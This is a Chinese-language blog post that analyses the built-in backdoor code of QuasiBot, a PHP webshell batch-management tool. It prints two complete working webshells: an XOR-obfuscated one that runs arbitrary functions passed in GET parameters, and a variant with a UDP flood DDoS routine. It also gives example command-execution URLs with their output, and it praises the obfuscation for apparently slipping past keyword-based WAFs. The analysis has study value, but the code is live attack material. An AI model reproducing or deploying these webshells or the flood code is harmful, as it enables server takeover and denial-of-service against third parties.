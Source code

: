 ```yaml
---
layout: post
title: "批量Webshell管理工具QuasiBot之后门代码分析"
tags: [web,secrity]
---
```


### 一、前言

最近在想着写一款webshell批量管理工具，发现目前有一款开源的，由php编写的管理平台- `QuasiBot` 。

项目地址：[https://github.com/Smaash/quasibot](https://github.com/Smaash/quasibot)

QuasiBot是一款php编写的webshell管理工具，可以对webshell进行远程批量管理。这个工具超越于普通的webshell管理是因为其还拥有安全扫描、漏洞利用测试等功能，可以利用大量的webshell进行高效的测试工作。

在本地使用QuasiBot的时候，发现它的内置后门代码非常不错，所以便有了此文。下面针对QuasiBot的两种后门代码进行剖析： `非DDoS` 版 和 `DDoS` 版。

### 二、分析

#### 1. 非DDoS版

首先给出``非DDoS``版本的后门代码：

{% highlight php%}
<?php
if($_GET['_']) {
    print "<!--".$_="{:|";$_=($_^"<").($_^">").($_^"/");${'_'.$_}["_"](${'_'.$_}["__"]);
    print "{:|".md5("#666#".date("h:d"))."{:|".PHP_OS."{:|-->";
} elseif($_GET['___']) { 
    @$_GET['___'](); 
}
?>
{% endhighlight %}

格式化一下，显得比较清晰：

{% highlight php %}
<?php
if($_GET['_']) {
    print "<!--".$_="{:|";
    $_=($_^"<").($_^">").($_^"/");
    ${'_'.$_}["_"](${'_'.$_}["__"]);
    print "{:|".md5("#666#".date("h:d"))."{:|".PHP_OS."{:|-->";
} elseif($_GET['___']) { 
    @$_GET['___'](); 
}
?>
{% endhighlight %}

首先来分析一下代码结果，QuasiBot的后门代码十分简单，由一个``if...elseif...``构成。

可以看到 `elseif($_GET['___'])` 直接运行从Get请求过来的参数 `___` 的函数。例如这里后门地址为： `http://www.virtual.com/ma.php` ，那么构造如下请求就会让后门代码去执行 `phpinfo()` 函数来获取系统的相关信息。

    http://www.virtual.com/ma.php?___=phpinfo

然后再看第一个 `if($_GET['_'])` 部分，当有参数 `__` 传入时进入条件：

{% highlight php %}
<?php
if($_GET['_']) {
    print "<!--".$_="{:|";
    $_=($_^"<").($_^">").($_^"/");
    ${'_'.$_}["_"](${'_'.$_}["__"]);
    print "{:|".md5("#666#".date("h:d"))."{:|".PHP_OS."{:|-->";
}
...
?>
{% endhighlight %}

根据代码可以看出，QuasiBot将通过后门执行的输出都放到 `response` 的注释 `<!-- ... -->` 里去了，这里有一定的隐藏效果。注意这里 `print "<!--".$_="{:|";` 这里对 $_ 变量进行了赋值，然后是通过字符的异或运算连接起一个 `"GET"` 字符串：

    $_=($_^"<").($_^">").($_^"/");

`$_^"<"` 会将 $_ 变量的第一个字符的ascii码与 "<" 的ascii码 进行异或，也就是 `123` ("{"的ascii码) 与 `60` ("<"的ascii码)进行异或：

    123^60 ==> 71 ('G')

得到ascii码 `71` 也就是字符 `"G"` ，通过相同方法构造出 `"E"` 和 `"T"` ，然后将其连接构成字符串 `"GET"` 。

然后根据php中的一个变量引用特性，以 `${'_GET'}["__"]` 作为参数调用函数 `${'_GET'}["_"]()` 。

这里的函数执行涉及到了php中 "动态函数调用"  和 "花括号{}使用" 的trcik。

[《常用PHP中花括号使用规则详解》](http://www.cnblogs.com/jayleke/archive/2011/11/08/2241609.html)这篇文章比较详细的讲了在php中 `{}` 使用时需要注意的地方。

给出一个简单易懂的例子说明一下 `动态函数调用` ，看下面这段代码 `demo.php` ：

{% highlight php %}
<?php
$func = "demo";
function demo() {
    echo "Demo on!"
}

$func();
?>
{% endhighlight %}

这里为了方便，直接在终端使用php执行该脚本文件，执行 `php demo.php` 得到输出 `Demo on!` 。

看了这个demo.php再结合 `{}` 的使用就很容易理解后门中的这段代码： `${'_GET'}["__"](${'_GET'}["_"])` 。

写得明显点就是： `$_GET["_"]($_GET["__"])` 。

简单明了的QuasiBot非DDoS后门代码：

{% highlight php %}
<?php
if($_GET['_']) {
    print "<!--{:|";
    $_GET["_"]($_GET["__"]);
    print "{:|".md5("#666#".date("h:d"))."{:|".PHP_OS."{:|-->";
} elseif($_GET['___']) { 
    @$_GET['___'](); 
}
?>
{% endhighlight %}

例如在win下要执行 `system('dir')` ，后门url为：http://www.virtual.com/ma.php，那么请求：http://www.virtual.com/ma.php?_=system&__=dir

在返回页面的源码里，得到如下内容：

    <!--{:| 驱动器 D 中的卷没有标签。
     卷的序列号是 2EE6-3EE0

     D:\PhpStudy\WWW 的目录

    2014/12/03  21:05    <DIR>          .
    2014/12/03  21:05    <DIR>          ..
    2014/12/03  21:05    <DIR>          discuz
    2014/11/10  22:43    <DIR>          Documentation
    2014/11/22  02:13               431 function.php
    2014/12/04  17:37               226 ma.php
    2014/11/19  22:38    <DIR>          mybb
    2014/11/20  12:53    <DIR>          mybb1
    2014/10/21  17:11    <DIR>          phpMyAdmin
    2014/11/25  23:52    <DIR>          phpMyRecipes
    2014/11/25  14:59    <DIR>          phpok
    2014/11/15  11:36    <DIR>          piwigo
    2014/11/14  14:04    <DIR>          qibomenhu
    2014/11/26  08:55    <DIR>          quasibot
    2014/11/27  11:50    <DIR>          rocboss
    2014/11/21  00:25    <DIR>          sqli
    2014/11/14  15:59    <DIR>          thinksns
    2014/11/10  22:43    <DIR>          Tools
    2014/11/10  22:44    <DIR>          upload
    2014/12/03  19:36               256 upload.php
    2014/11/22  12:54    <DIR>          wordpress
                   3 个文件            913 字节
                  18 个目录 35,217,747,968 可用字节
    {:|7d9f82db8d7d8b1ed3fda323040e671a{:|WINNT{:|-->

命令成功执行，其他比较细节的分析这里就不在多说了，有兴趣的可以自行总结。

#### 2. DDoS版

DDoS版后门代码如下（代码有点长）：

{% highlight php %}
<?php
if($_GET['_']) {
print "<!--".$_="{:|";$_=($_^"<").($_^">").($_^"/");${'_'.$_}["_"](${'_'.$_}["__"]);
print "{:|".md5("#666#".date("h:d"))."{:|".PHP_OS."{:|-->";
} elseif($_GET['___']) { @$_GET['___'](); } elseif(isset($_POST['target'])&&isset($_POST['time'])){$fn0=0;$pm1=$_POST['time'];$yu2=time();$az3=$yu2+$pm1;$jd4=$_POST['target'];$kb5=gethostbyname($jd4);for($pt6=0;$pt6<65553;$pt6++){$yf7.='X';}while(1){$fn0++;if(time()>$az3){break;}$yw8=rand(1,65553);$vl9=fsockopen('udp://'.$kb5,$yw8,$ic10,$yf11,5);if($vl9){fwrite($vl9,$yf7);fclose($vl9);}}}elseif($_POST['kill']=='1'){exit(0);}
?>
{% endhighlight %}

格式化一下：

{% highlight php %}
<?php
if($_GET['_']) {
    print "<!--".$_="{:|";$_=($_^"<").($_^">").($_^"/");${'_'.$_}["_"](${'_'.$_}["__"]);
    print "{:|".md5("#666#".date("h:d"))."{:|".PHP_OS."{:|-->";
} elseif($_GET['___']) {
    @$_GET['___']();
} elseif(isset($_POST['target'])&&isset($_POST['time'])) { 
    $fn0=0;
    $pm1=$_POST['time'];
    $yu2=time();
    $az3=$yu2+$pm1;
    $jd4=$_POST['target'];
    $kb5=gethostbyname($jd4);
    for($pt6=0;$pt6<65553;$pt6++) {
        $yf7.='X';
    }
    while(1) {
        $fn0++;
        if(time()>$az3) {
            break;
        }
        $yw8=rand(1,65553);
        $vl9=fsockopen('udp://'.$kb5,$yw8,$ic10,$yf11,5);
        if($vl9) {
            fwrite($vl9,$yf7);
            fclose($vl9);
        }
    }
} elseif($_POST['kill']=='1') {
    exit(0);
}
?>
{% endhighlight %}

前面部分的参数判断这里就不讲解了，请参照 `非DDoS版` 的分析。直接看DDoS代码部分，这里通过 `$_POST['target']` 来获取目标， `$_POST['time']` 为攻击持续的时间（这里以秒为单位）。 

接下来就是一系列的准备工作，构造 `65553` 字节的超长数据通过 `udp` 的方式向目标随机端口打流量（为哈要随机端口，没懂）。

构造 `65553` 字节的数据：

    for($pt6=0;$pt6<65553;$pt6++) {
        $yf7.='X';
    }

随机生成端口号（最大不应该是65535？）：

    $yw8=rand(1,65553);

创建socket并发送数据：

    $vl9=fsockopen('udp://'.$kb5,$yw8,$ic10,$yf11,5);
    if($vl9) {
        fwrite($vl9,$yf7);
        fclose($vl9);
    }

至此 `QuasiBot` 两种模式的后面简单剖析完毕。值得学习的是该后门对php特性的运用，整个后门代码（ `非DDoS版` ）没有出现任何较敏感的关键字，能绕过大多数通过关键字检测的waf（未验证，目测。不要拍砖）。
